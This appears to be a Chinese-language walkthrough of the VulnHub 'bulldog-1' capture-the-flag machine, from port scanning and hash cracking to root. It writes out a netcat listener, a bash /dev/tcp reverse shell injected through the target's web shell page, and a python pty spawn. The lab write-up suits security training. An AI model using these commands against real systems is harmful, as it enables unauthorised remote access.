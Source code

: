 # VulnHub: bulldog-1
- https://www.vulnhub.com/entry/bulldog-1,211/
## Walkthrough
使用VirtualBox開啟虛擬機，可自動取得靶機ip，利用nmap掃port，http端口80、8080，ssh端口23皆為開放狀態  
DirBuster爆破目錄，發現在/dev/中的source code有提示

> Need these password hashes for testing. Django's default is too complex  
We'll remove these in prod. It's not like a hacker can do anything with a hash

把註解中的password拿去sha1 decode，求出nick跟sarah的password，試探用database(sarah)去登/admin/，成功，但無編輯權限  
發現/dev/shell網頁，登入sarah後擁有權限，試圖用bash反彈shell，失敗，最後用echo成功  
攻擊機:`nc -l 3333`  
靶機shell欄位:`echo "bash -i >& /dev/tcp/10.10.10.10/3333 0>&1" | bash`  

查看可疑user，發現bulldogadmin和django  
查看bulldogadmin文件，發現可疑目錄/bulldogadmin/.hiddenadmindirectory，從note中發現提示

> Literally run the app, give your account password

用strings查看customPermissionApp，發現奇怪字眼  
`SUPERultH  
imatePASH  
SWORDyouH  
CANTget`  
研究了一下，刪掉H之後:  
`SUPERultimatePASSWORDyouCANTget`  
得到一串很像是密碼的東西，但並不確定，su試試，先解決error問題  
`python -c 'import pty;pty.spawn("/bin/bash")'`  
嘗試登入root帳號，密碼登入成功，回到/root目錄發現congrats.txt文件  
cat congrats.txt文件，成功看到祝福文
